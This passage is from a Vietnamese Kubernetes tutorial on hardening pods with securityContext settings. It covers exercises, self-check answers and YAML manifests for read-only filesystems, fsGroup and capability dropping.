* 📌 **4. Triệt tiêu SUID và Capabilities:** Khóa chặt `allowPrivilegeEscalation: false` và tước sạch quyền kernel bằng `capabilities.drop: ["ALL"]`.
* 📌 **5. Khóa cứng hệ thống tệp:** Dùng `readOnlyRootFilesystem: true` để biến container thành pháo đài chỉ đọc, kết hợp mount `emptyDir` vào các thư mục tạm (`/tmp`) để ứng dụng hoạt động bình thường.

---

## 9. Bài tập tự làm

* 🟢 **Mức Dễ:** Viết một Pod manifest chạy `nginx:alpine` với `securityContext` cấp Container có `readOnlyRootFilesystem: true`. Khởi chạy Pod và quan sát xem Pod có bị crash không? Nếu crash, hãy xem log và giải thích vì sao nginx lại cần ghi dữ liệu vào các thư mục nào.
* 🟡 **Mức Vừa:** Tạo một Pod có 2 container cùng chia sẻ một volume `emptyDir` gắn tại `/shared-data`. Cấu hình `fsGroup: 5000` ở cấp Pod. Sau đó, cho Container 1 tạo một file trong `/shared-data`. Nhảy vào Container 2 và kiểm tra xem file đó có thuộc nhóm sở hữu GID 5000 hay không.
* 🔴 **Mức Khó:** Viết file manifest Deployment chuẩn hóa hoàn hảo cho dịch vụ `redis-cart` (Online Boutique): Chạy non-root (UID 999), drop ALL capabilities, cấm leo thang đặc quyền, bật readOnlyRootFilesystem, và cấp phát các volume cần thiết để Redis có thể lưu file dump dữ liệu (`dump.rdb`) mà không vi phạm an ninh.

---

## 10. Câu hỏi tự kiểm tra

1. Điểm khác nhau giữa việc đặt `runAsNonRoot: true` và `runAsUser: 10001` là gì?
2. Tại sao `capabilities` chỉ có thể khai báo ở cấp Container mà không thể khai báo ở cấp Pod?
3. Khi bạn bật `readOnlyRootFilesystem: true`, một tiến trình có thể dùng lệnh `pip install` hoặc `npm install` bên trong container được nữa không? Vì sao?
4. Thuộc tính `fsGroupChangePolicy: "OnRootMismatch"` giúp giải quyết vấn đề hiệu năng gì trong môi trường Kubernetes lớn?
5. Nếu một container cần quyền mở cổng mạng 80 (cổng đặc quyền dưới 1024), thay vì cấp toàn quyền root, bạn nên thêm (add) Linux Capability cụ thể nào vào SecurityContext?

<details>
<summary>👉 Bấm vào đây để xem đáp án câu hỏi tự kiểm tra</summary>

* **Câu 1:** `runAsNonRoot: true` là một điều kiện kiểm tra an toàn (Validation rule) nhằm đảm bảo container không chạy quyền root; trong khi `runAsUser: 10001` là mệnh lệnh trực tiếp chỉ định UID cụ thể cho tiến trình.
* **Câu 2:** Vì mỗi container bên trong cùng một Pod có thể chạy các ứng dụng hoàn toàn khác nhau với các mục đích khác nhau (ví dụ: một container là web app cần ít quyền, một container là sidecar log shipper hoặc service mesh proxy cần quyền mạng riêng), do đó quyền hạn kernel capabilities phải được quản trị độc lập cho từng container.
* **Câu 3:** **HOÀN TOÀN KHÔNG!** Lệnh sẽ báo lỗi `Read-only file system` ngay lập tức vì các trình quản lý gói này đòi hỏi phải ghi file nhị phân và thư viện vào các thư mục hệ thống như `/usr/local/lib` hoặc `/usr/bin`.
* **Câu 4:** Nó giải quyết vấn đề Pod khởi động siêu chậm khi mount các PersistentVolume lớn (chứa hàng triệu file). Nó ngăn Kubelet phải chạy đệ quy lệnh `chown` duyệt qua từng file con nếu thư mục gốc đã mang đúng quyền sở hữu.
* **Câu 5:** Thêm Capability **`NET_BIND_SERVICE`** (bằng cách khai báo `capabilities.add: ["NET_BIND_SERVICE"]`). Điều này cho phép container mở cổng dưới 1024 mà không cần bất kỳ quyền root nào khác.
</details>

---

## 11. Tài liệu đọc thêm và bài tiếp theo

### Tài liệu tham khảo
* [Kubernetes Documentation: Configure a Security Context for a Pod or Container](https://kubernetes.io/docs/tasks/configure-pod-container/security-context/)
* [Linux Kernel Documentation: Overview of Linux Capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.html)
* [OWASP Kubernetes Security Cheat Sheet: Pod Security Context](https://cheatsheetseries.owasp.org/cheatsheets/Kubernetes_Security_Cheat_Sheet.html)

### Bài tiếp theo
👉 **Bài 34: Quản lý Secret chuẩn Enterprise với External Secrets Operator**

---

## PHỤ LỤC: ĐÁP ÁN GỢI Ý BÀI TẬP TỰ LÀM (MỤC 9)

### Đáp án Mức Dễ
Khi bật `readOnlyRootFilesystem: true` cho `nginx:alpine`, Nginx sẽ bị crash ngay lập tức vì mặc định Nginx đòi ghi file PID vào `/var/run/nginx.pid` và các file cache vào `/var/cache/nginx`.  
Để sửa lỗi, bạn phải gắn các volume `emptyDir` vào các đường dẫn này:
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: nginx-readonly
spec:
  containers:
  - name: web
    image: nginx:alpine
    securityContext:
      readOnlyRootFilesystem: true
    volumeMounts:
    - name: cache-vol
      mountPath: /var/cache/nginx
    - name: run-vol
      mountPath: /var/run
  volumes:
  - name: cache-vol
    emptyDir: {}
  - name: run-vol
    emptyDir: {}
```

---

### Đáp án Mức Vừa
```powershell
@'
apiVersion: v1
kind: Pod
metadata:
  name: fsgroup-demo
spec:
  securityContext:
    fsGroup: 5000
  containers:
  - name: writer
    image: busybox:1.36
    command: ["sh", "-c", "echo hello > /shared-data/test.txt && sleep 3600"]
    volumeMounts:
    - name: data
      mountPath: /shared-data
  - name: reader
    image: busybox:1.36
    command: ["sleep", "3600"]
    volumeMounts:
    - name: data
      mountPath: /shared-data
  volumes:
  - name: data
    emptyDir: {}
'@ | Set-Content -Encoding utf8 fsgroup.yaml

kubectl apply -f fsgroup.yaml
kubectl wait --for=condition=Ready pod/fsgroup-demo --timeout=60s

# Kiểm tra quyền sở hữu từ container reader:
kubectl exec fsgroup-demo -c reader -- ls -la /shared-data/test.txt
# Output in ra: -rw-r--r-- 1 root 5000 ... test.txt (Group ID đúng là 5000!)

# Dọn dẹp
kubectl delete -f fsgroup.yaml
Remove-Item fsgroup.yaml -ErrorAction SilentlyContinue
```

---

### Đáp án Mức Khó
File manifest chuẩn hóa toàn diện cho `redis-cart`:
```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: redis-cart-hardened
spec:
  replicas: 1
  selector:
    matchLabels:
      app: redis-cart
  template:
    metadata:
      labels:
        app: redis-cart
    spec:
      securityContext:
        runAsNonRoot: true
        runAsUser: 999       # UID mặc định của user redis
        runAsGroup: 999
        fsGroup: 999
        seccompProfile:
          type: RuntimeDefault
      containers:
      - name: redis
        image: redis:alpine
        ports:
        - containerPort: 6379
        securityContext:
          allowPrivilegeEscalation: false
          readOnlyRootFilesystem: true
          capabilities:
            drop:
            - ALL
        volumeMounts:
        - name: redis-data
          mountPath: /data   # Nơi Redis ghi file dump.rdb
      volumes:
      - name: redis-data
        emptyDir: {}
```

